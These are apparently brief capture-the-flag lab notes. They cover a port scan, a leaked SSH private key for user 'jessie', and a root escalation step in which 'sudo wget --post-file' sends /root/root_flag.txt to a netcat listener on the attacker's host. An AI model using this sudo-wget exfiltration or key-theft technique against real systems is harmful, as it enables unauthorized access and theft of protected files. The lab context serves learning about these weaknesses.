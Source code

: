 nmap

22
80

***
http

<!-- Jessie don't forget to udate the webiste -->
/.ssh
found id_rsa

username : jessie

***
we can run wget as sudo

sudo /usr/bin/wget --post-file=/root/root_flag.txt http://10.8.133.3:4444

local mahcine :
nc -nvlp 4444

